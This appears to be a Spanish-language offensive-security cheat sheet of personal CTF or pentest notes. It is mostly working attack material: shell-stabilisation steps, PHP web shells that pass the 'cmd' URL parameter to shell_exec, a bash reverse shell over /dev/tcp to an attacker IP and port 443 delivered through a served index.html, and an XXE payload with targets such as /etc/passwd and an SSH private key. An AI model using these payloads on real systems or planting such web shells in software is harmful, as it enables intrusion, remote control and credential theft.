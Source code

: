 # Diferentes codigos

## Tratamiento de la pseudo-consola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

## PHP
Con este codigo le decimos a la pagina que queremos que cuando se ejecute comandos cmd los guarde en la variable, esto si estamos en un Framework

* **Code**
function onStart() {
	$this->page["myVar"] = shell_exec(\$\_GET['cmd']);
}

Y para hacerlo funcionar debemos de hacer lo siguiente en:
* **Markup**
{{this.page.myVar}}
Que eso es lo que va a recibir del condigo anterior

Para poder ejecutar comandos en la URL debemos de colocar al final lo siguinete **?cmd=whoami**

****
Permite ejecutar un comando a nivel de sistema en la web y poder poner **?cmd=whoami**

❯ **nano cmd.php**
❮?php 
		echo "❮prep❯" . shell_exec(\$\_GET\['cmd']) . "❮/prep❯";
?❯


## Bash ReverShell
Este comando siempre se ejecuta en la maquina victima para hacer una ReverShell desde una URL
❯ **bash -c 'bash -i >& /dev/tcp/❮IP❯/❮PORT❯ 0>&1'** 
* Para hacer una ReverShell
* IP -> Direccion de la maquina de atacante
* PORT -> Puerto del netcat mas comun 443

****
Hacemos un archivo index.html y al momento de recibir la peticion **Curl** de la maquina victima podremos ejecutar la revershell y este debe ser interpretado por bash
```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = Nuestra IP de atacante
```


## XXE
Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮?xml version=”1.0” encoding=”ISO-8859-1”?❯
		❮!DOCTYPE foo \[
		❮!ELEMENT foo ANY❯
	❮!ENTITY xxe SYSTEM “file:////opt/blog/server.js”❯]❯
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯&xxe;❮/markdown❯
	❮/post❯

Comandos que podemos meter en SYSTEM: 
**\file:///proc/net/fib_trie** Que nos muestra las direcciones IP que se encuetran ahi en la maquina 
**\file:///proc/net/tcp** Que nos muestra los puerto abiertos pero de manera interna, miramos que vienen en fomato hexadecimal y podemos desconvertirlos en alguna pagina web.
**\file:////etc/passwd** Ver los usuarios de la maquina 
**\file:///home/admin/.ssh/id_rsa** Tratar de listar la id_rsa de la maquina

## 
